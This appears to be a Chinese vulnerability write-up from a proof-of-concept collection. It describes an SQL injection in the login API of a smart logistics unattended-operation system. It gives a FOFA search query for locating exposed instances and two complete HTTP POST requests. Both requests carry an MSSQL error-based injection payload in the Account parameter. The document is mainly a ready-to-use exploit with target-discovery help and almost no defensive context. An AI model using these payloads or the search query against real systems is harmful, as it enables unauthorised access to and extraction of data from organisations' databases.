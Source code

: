 ## 易思智能物流无人值守系统login存在SQL注入漏洞

易思智能物流无人值守系统login存在SQL注入漏洞.md

## fofa

```javascript
body="/api/SingleLogin"
```

## poc

```javascript
POST /api/PhoneLogin/login HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

Account=1'%20and%20sys.fn_sqlvarbasetostr(HashBytes('MD5','123'))=1--&Espassword=g5edid4OCFI32C5NPEZeXg%3D%3D
```

```javascript
OST /api/SingleLogin/login HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Priority: u=0
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip, deflate

LoginUserType=0&DeviceType=2&Account=1'%20and%20sys.fn_sqlvarbasetostr(HashBytes('MD5','123'))=1--&BrowserType=Firefox&Verifycode=&IMEI=&isverify=false&SetOfBooks=Default&Espassword=1wD%2Bj6eIbahZGOatg1Spiw%3D%3D
```

![image-20241106172316570](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411061723637.png)
